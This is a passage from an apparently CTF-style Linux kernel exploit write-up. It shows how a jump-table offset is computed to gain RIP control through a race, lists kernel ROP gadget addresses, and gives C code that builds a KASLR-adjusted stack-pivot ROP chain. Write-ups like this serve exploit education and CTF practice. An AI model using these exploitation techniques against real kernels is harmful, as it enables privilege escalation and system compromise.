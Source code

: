 Indeed, `-0x3fffbda8` is actually `0xffffffffc0004258`, which is the address of the jump table.

```
pwndbg> x/10gx -0x3fffbda8
0xffffffffc0004258:     0xffffffffc0000829      0xffffffffc00003ef
0xffffffffc0004268:     0xffffffffc0000780      0xffffffffc0000609
0xffffffffc0004278:     0xffffffffc00004f7      0xffffffffc0000842
```

Exactly, by calculating the offset between the jump table and `scarecrow->secret`, you can control the data fetched by `[rax*8-0x3fffbda8]`.

In the code snippet below, `payload_addr` represents the address of `scarecrow->secret` and `jmp_table` represents the address of the jump table. Subtracting these values and dividing by 8 will yield `idx`, which is the trick type value you need to race to control RIP.

```c
unsigned long idx = (payload_addr - jmp_table) / 8;
```



#### 3.3 Setup ROP

Here are the addresses of some gadgets used during the exploit construction phase:

```
0xffffffff81206879 : mov rax, qword ptr [r12] ; call qword ptr [rax + 0x28]
0xffffffff812d4468 : mov rdi, qword ptr [rax + 0x20] ; mov rax, qword ptr [rdi + 0x18] ; call qword ptr [rax - 0x20]
0xffffffff8118388f : push rdi ; pop rsp ; xor eax, eax ; test edx, edx ; jle 0xffffffff81183898 ; ret
0xffffffff81001bac : pop rdi ; ret
0xffffffff81001970 : pop rsi ; ret
0xffffffff81002ce7 : pop rbx ; ret
0xffffffff810fc69e : pop rdx ; ret
0xffffffff8106930f : pop rcx ; ret
0xffffffff81053110 : pop rax ; ret
0xffffffff810ec2ad : sub rax, rdx ; ret
0xffffffff8102314a : mov rax, rbp ; pop rbp ; ret
0xffffffff817893fb : mov rdi, rax ; rep movsq qword ptr [rdi], qword ptr [rsi] ; ret
0xffffffff8104657b : mov rsi, rax ; rep movsq qword ptr [rdi], qword ptr [rsi] ; ret
0xffffffff810664d0 : mov rax, qword ptr [rsi] ; ret
0xffffffff810e42b0 : msleep
```

Our first goal is to pivot the stack to `payload_addr` because it allows us to do more things through ROP. After gaining control of `rip`, we execute the following gadget chain for stack pivoting. The execution order of each gadget is indicated by the annotated numbers.

```c
// r12 is &grip->cookie, and [r12] is payload_addr which we can control
*(unsigned long *)(payload_addr + i) = KASLR(0xffffffff81206879); i += 8; // [1]
*(unsigned long *)(payload_addr + i) = 0;                         i += 8;
*(unsigned long *)(payload_addr + i) = KASLR(0xffffffff8118388f); i += 8; // [3]
*(unsigned long *)(payload_addr + i) = 0;                         i += 8;
*(unsigned long *)(payload_addr + i) = payload_addr + 0x30;       i += 8;
*(unsigned long *)(payload_addr + i) = KASLR(0xffffffff812d4468); i += 8; // [2]
```
